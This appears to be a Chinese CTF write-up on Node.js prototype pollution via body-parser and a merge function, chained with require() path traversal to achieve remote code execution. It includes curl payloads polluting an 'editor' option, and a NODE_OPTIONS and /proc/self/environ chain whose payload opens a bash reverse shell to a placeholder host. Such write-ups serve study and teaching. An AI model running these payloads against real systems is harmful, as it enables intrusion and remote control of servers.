


# 记录做题过程

## 一些想法

在测试body-parser express接受参数的时候，遇到一种目前还没有想明白的原型问题
body-parse在处理对象传参的时候,核心代码如下

```js
var parseObject = function (chain, val, options) {
    var leaf = val;

    for (var i = chain.length - 1; i >= 0; --i) {
        var obj;
        var root = chain[i];

        if (root === '[]' && options.parseArrays) {
            obj = [].concat(leaf);
        } else {
            obj = options.plainObjects ? Object.create(null) : {};
            var cleanRoot = root.charAt(0) === '[' && root.charAt(root.length - 1) === ']' ? root.slice(1, -1) : root;
            var index = parseInt(cleanRoot, 10);
            if (!options.parseArrays && cleanRoot === '') {
                obj = { 0: leaf };
            } else if (
                !isNaN(index)
                && root !== cleanRoot
                && String(index) === cleanRoot
                && index >= 0
                && (options.parseArrays && index <= options.arrayLimit)
            ) {
                obj = [];
                obj[index] = leaf;
            } else {
                obj[cleanRoot] = leaf;
            }
        }

        leaf = obj;
    }

    return leaf;
};
```
逻辑可简化如下
```js
let a ={}
a['__proto__']={'a':1}
let b = {}
b['data']=a
b.data.a
//result 1
```
这种污染方式只会污染data的原型，不会污染b的原型,并且也不会污染对象其他元素的原型，只限于这一个属性


测试代码如下
```js
const express = require('express');
const path = require('path');
const bodyParser = require('body-parser');

const app = express()
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({
    extended: true
}));

app.post('/test', function(req, res, next){
    res.send(req.body.data);
    let b={}
    console.log(req.body.data.a);
})
app.listen(3333,function(){
    console.log('start test server 3333....');
})
```
发包
```bash
$ curl  http://127.0.0.1:3333/test -X POST -d 'data[__proto__][a]=1'
```

可以用Object.getPrototypeOf(req.body.data)来具体确认原型上有哪些属性

如果后端的代码支持解析json，可以直接post json格式的参数，根据我看源码发现，body-parse解析json格式的数据，是直接用的JSON.parse()
```json
{"data":{"__proto__":{"editor":"touch /tmp/123.txt"}}}
```



## 回到题目

这里存在一个原型链污染
```js
app.post('/api/tet/list', function (req, res, next) {
    try {
        const getList1 = require("./static/list-2010-2016.js")
        const getList2 = require("./static/list-2017-2022.js")
        let newList = merge(getList1.all(), getList2.all())
        let data = req.body.data || "";
        newList = merge(newList, data);
        res.json(newList)
    } catch (error) {
        res.send(error)
    }
})
```

在看完题目的代码之后，除了这一处`const getList = require("./static/" + list)`,有可能会出现问题之外，其他地方都挺安全的。

list变量是完全可控的，可以控制被包含的文件，所以有了这么一种思路

- 首先通过原型链污染，改变某个文件中的变量
- 之后控制list变量，包含指定的文件，就可以rce了

那么问题来了，需要污染什么样的变量，会比较容易实现RCE，我的想法如下：
- options 配置参数，原因如下
  - 配置参数有很多不是默认就已经设置了的，这样程序会去原型上寻找变量，恰好符合原型链污染生效的条件。
  - opts = opts||{} 代码里面经常出现这种写法，拷贝一个空对象，就表明了，一旦有opts.xx这种获取对象属性的代码，都会去原型上查找。
  - 通过污染配置参数，可以控制程序的执行流程。
- exports中的变量
  - nodejs和php的文件包含有一个不一样的地方，并不是文件中所有的代码都会被执行，只有module.exports中的变量才会被包含


### 解法一
看这个文件的目录，像是和npm有关
/usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js
```js
var editor = require('../');
editor(__dirname + '/beep.json', function (code, sig) {
    console.log('finished editing with code ' + code);
});
```
这个文件里面有一个require操作，并且直接调用了require进来的函数，跟进require

```js
var spawn = require('child_process').spawn;

module.exports = function (file, opts, cb) {
    if (typeof opts === 'function') {
        cb = opts;
        opts = {};
    }
    if (!opts) opts = {};
    
    var ed = /^win/.test(process.platform) ? 'notepad' : 'vim';
    var editor = opts.editor || process.env.VISUAL || process.env.EDITOR || ed;
    var args = editor.split(/\s+/);
    var bin = args.shift();
    
    var ps = spawn(bin, args.concat([ file ]), { stdio: 'inherit' });
    
    ps.on('exit', function (code, sig) {
        if (typeof cb === 'function') cb(code, sig)
    });
};
```
污染editor参数就可以rce了

payload
```bash
% curl http://localhost:3000/api/tet/list  -X POST -H "Content-type: application/json" -d '{"data":{"__proto__":{"editor":"touch /tmp/234.txt"}}}'
% curl http://localhost:3000/api/tet/years -X POST -d 'list=../../../../../usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js'
```

发现一个奇怪的地方，只能污染一次，第二次不能执行


### 解法二

yarn

一个trick
```js
NODE_OPTIONS='--require "./a.js"' node --require "./b.js"
# 相当于：
node --require "./a.js" --require "./b.js"
```

`/opt/yarn-v1.22.15/preinstall.js`
```js
if (process.env.npm_config_global) {
    var cp = require('child_process');
    var fs = require('fs');
    var path = require('path');

    try {
        var targetPath = cp.execFileSync(process.execPath, [process.env.npm_execpath, 'bin', '-g'], {
            encoding: 'utf8',
            stdio: ['ignore', undefined, 'ignore'],
        }).replace(/\n/g, '');

        var manifest = require('./package.json');
        var binNames = typeof manifest.bin === 'string'
            ? [manifest.name.replace(/^@[^\/]+\//, '')]
            : typeof manifest.bin === 'object' && manifest.bin !== null
            ? Object.keys(manifest.bin)
            : [];

        binNames.forEach(function (binName) {
            var binPath = path.join(targetPath, binName);

            var binTarget;
            try {
                binTarget = fs.readlinkSync(binPath);
            } catch (err) {
                return;
            }

            if (binTarget.startsWith('../lib/node_modules/corepack/')) {
                try {
                    fs.unlinkSync(binPath);
                } catch (err) {
                    return;
                }
            }
        });
    } catch (err) {
        // ignore errors
    }
}
```
process.execPath就是node二进制文件的路径，需要跟进nodejs自带模块child_process，查看execFileSync函数是如何实现的，

简要提一下，nodejs原生模块该如何debug调试，vscode中需要去掉`skipFiles`中的内容
最终配置
```json
{
    // Use IntelliSense to learn about possible attributes.
    // Hover to view descriptions of existing attributes.
    // For more information, visit: https://go.microsoft.com/fwlink/?linkid=830387
    "version": "0.2.0",
    "configurations": [
        {
            "type": "pwa-node",
            "request": "launch",
            "name": "Launch Program",
            "skipFiles": [
                //"<node_internals>/**"
            ],
            "program": "${workspaceFolder}/test/index.js"
        }
    ]
}
```
跟进execFileSync
```js
function execFileSync(command, args, options) {
  options = normalizeSpawnArguments(command, args, options);

  const inheritStderr = !options.stdio;
  const ret = spawnSync(options.file, options.args.slice(1), options);

  if (inheritStderr && ret.stderr)
    process.stderr.write(ret.stderr);

  const err = checkExecSyncError(ret, options.args, undefined);

  if (err)
    throw err;

  return ret.stdout;
}
```
再次跟进normalizeSpawnArguments，只写一下重要的代码
```js
  const env = options.env || process.env;
  const envPairs = [];
    。。。。。
  // Prototype values are intentionally included.
  for (const key in env) {
    const value = env[key];
    if (value !== undefined) {
      envPairs.push(`${key}=${value}`);
    }
  }

  return {
    // Make a shallow copy so we don't clobber the user's options object.
    ...options,
    args,
    cwd,
    detached: !!options.detached,
    envPairs,
    file,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!windowsVerbatimArguments,
  };
```
污染npm_config_global进入if判断，之后污染process.env，env环境变量保存在/proc/self/environ文件中，再利用NODE_OPTIONS这个配置参数，就可以起到一个node --require /proc/self/environ的效果

payload
```
data={'__proto__': {'npm_config_global': 1, 'env': {'zz':
"console.log(require('child_process').execSync(`/bin/bash -c 'bash -i >&
/dev/tcp/xx/xxx 0>&1'`).toString())//"}, 'NODE_OPTIONS': '--require
/proc/self/environ'}}
```

### 失败的解法

可以利用目录穿越直接包含flag文件，因为flag文件不符合nodejs的文件格式，所以肯定会报错，然后把内容打印出来；但是根据测试发现，只会打印require找不到文件的错误，其他错误不打印
```bash
% curl http://localhost:3333/api/tet/years -X POST -d 'list=./world' 
{"code":"MODULE_NOT_FOUND","requireStack":["/usr/src/app/test/index.js"]}
```

